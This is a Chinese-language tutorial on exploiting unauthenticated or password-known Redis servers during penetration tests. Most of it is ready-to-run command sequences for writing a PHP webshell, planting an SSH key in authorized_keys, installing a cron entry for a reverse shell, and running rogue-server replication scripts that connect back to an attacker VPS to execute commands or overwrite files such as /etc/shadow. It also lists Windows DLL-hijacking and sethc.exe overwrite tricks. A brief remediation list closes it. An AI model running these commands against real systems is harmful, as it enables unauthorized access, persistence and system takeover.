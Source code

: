 
# [](#redis-%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E5%B8%B8%E8%A7%81%E7%9A%84%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F)Redis 在渗透测试中常见的利用方式

> 本文主要以 redis 未授权或已知 redis 口令为前提进行漏洞利用

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525095914.png-water_print](assets/1699409268-800973274304f4af7e1a76ce381ddb09 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525095914.png-water_print")

## [](#1-%E5%86%99%E5%85%A5-webshell)1 写入 webshell

条件：

-   已知 web 目录绝对路径
-   拥有该目录下的可写权限

查看所有键，创建新键，键值为 webshell，这里以写入 phpinfo 进行一个演示。

因为创建新键赋键值会把原来的键值覆盖，所以需要在赋值的时候需要查看所有的键，然后选择一个没有的键创建赋值。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>keys *<br>set x "\n\n<?php pnpinfo();?>\n"<br>get x<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100009.png-water_print](assets/1699409268-7795843d6bf34ee1243fb2ffbe84f220 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100009.png-water_print")

查看 redis 数据库配置信息，因为我们写 Webshell 会修改 `dir` 和 `dbfilename`，所以这里查看配置信息主要记下原来的值，好在写入后修改回来。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>config get *<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100101.png-water_print](assets/1699409268-844a3924230d5ff56b050abbedda7fc0 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100101.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100117.png-water_print](assets/1699409268-fa07510f08dfc6fd627a82327572de6f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100117.png-water_print")

设置 webshell 输出目录和文件名，然后写入 Webshell。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>config set dir /var/www    # 设置文件写入目录<br>config set dbfilename 1.php   # 设置写入文件名<br>save # 保存<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525101443.png-water_print](assets/1699409268-1dd3131b03f639e3e58c3a78d625c67c.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525101443.png-water_print")

最后，再还原数据库配置。

## [](#2-%E5%86%99%E5%85%A5-ssh-%E5%85%AC%E9%92%A5)2 写入 ssh 公钥

条件：

-   已知启动服务的用户
-   拥有 .ssh 目录
-   允许使用基于密钥认证的方式登陆

### [](#21-%E7%94%9F%E6%88%90%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9)2.1 生成公私钥对

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ssh-keygen -t rsa    # 生成公钥和私钥<br>``` |

### [](#22-%E5%88%A9%E7%94%A8-redis-config-%E5%86%99%E6%96%87%E4%BB%B6)2.2 利用 redis config 写文件

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>set x "\n\n公钥内容\n"<br>config set dir /home/user/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

### [](#23-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9%E7%99%BB%E5%BD%95)2.3 利用公私钥对登录

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ssh -i id_rsa user@ip<br>``` |

## [](#3-%E5%86%99%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E5%8F%8D%E5%BC%B9-shell)3 写定时任务反弹 shell

条件：

-   拥有计划任务目录写权限
-   目标启动计划服务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>keys *    查看所有键<br>set x "\n\n计划任务内容\n\n"    <br>config get *    <br>config set dir /var/spool/cron    <br>config set dbfilename root    <br>save    保存，完成文件写入<br>del x    删除创建的x键<br>``` |

## [](#4-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6)4 主从复制

### [](#41-%E5%8A%A0%E8%BD%BD%E6%89%A9%E5%B1%95%E6%A8%A1%E5%9D%97%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4)4.1 加载扩展模块执行系统命令

具体的原理在之前漏洞复现的文章中已经解释过。

脚本地址：[https://github.com/Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)

主动连接模式：

参数说明

-   `--rpasswd` 如果目标 Redis 服务开启了认证功能，可以通过该选项指定密码
-   `--rhost` 目标 redis 服务 IP
-   `--rport` 目标 redis 服务端口，默认为 6379
-   `--lhost` vps 的外网 IP 地址
-   `--lport` vps 监控的端口，默认为 21000

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port><br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104637.png-water_print](assets/1699409268-e4cb3b72ba47d7d07c2f852cd68d2a0f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104637.png-water_print")

被动连接模式：

适用于目标 Redis 服务处于内网的情况

-   通过 SSRF 攻击 Redis
-   内网 Redis 未授权访问/已知 Redis 口令，Redis 需要反向连接 redis rogue server

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --server-only<br>``` |

### [](#42-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6%E5%86%99%E5%85%A5%E7%BA%AF%E5%87%80%E6%96%87%E4%BB%B6)4.2 主从复制写入纯净文件

在 linux 下，可以利用 SYNC 主从同步，来直接写入无杂质的文件，脚本如下：

[https://github.com/r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile)

此脚本是通过 `Redis` 主从写出无损文件，可用于 `Windows` 平台下写出无损的 `EXE`、`DLL`、 `LNK` 和 `Linux` 下的 `SO` 等二进制文件

也可以用无杂质覆写 `Linux` 中的 `/etc/shadow`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>python3 RedisWriteFile.py --rhost 172.17.0.2 --rport 6379 --lhost 172.17.0.1 --lport 4444 --rpath "/var/www" --rfile "test.php" --lfile "./phpinfo.php"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104700.png-water_print](assets/1699409268-fd5e9eac0c8cfe82b1c6638a50cd2f34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104700.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104744.png-water_print](assets/1699409268-8d87e395a92e9e3226b794201ba7f8d3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104744.png-water_print")

上述方法主要是针对 linux，当 windows 上未开启 web 服务时，该如何 getshell？

下面介绍下 redis 在 windows 下的常见打法：

1.  系统 `DLL` 劫持（目标重启或注销）
2.  针对特定软件的 `DLL` 劫持（目标一次点击）
3.  覆写目标的快捷方式（目标一次点击）
4.  覆写特定软件的配置文件达到提权目的（目标无需点击或一次点击）
5.  覆写 `sethc.exe` 等文件（攻击方一次触发）

参考：[http://r3start.net/index.php/2020/05/25/717](http://r3start.net/index.php/2020/05/25/717)

## [](#5-%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)5 漏洞修复

-   设置密码认证
-   尽量以低权限来运行 Redis 服务
-   限制登录 IP
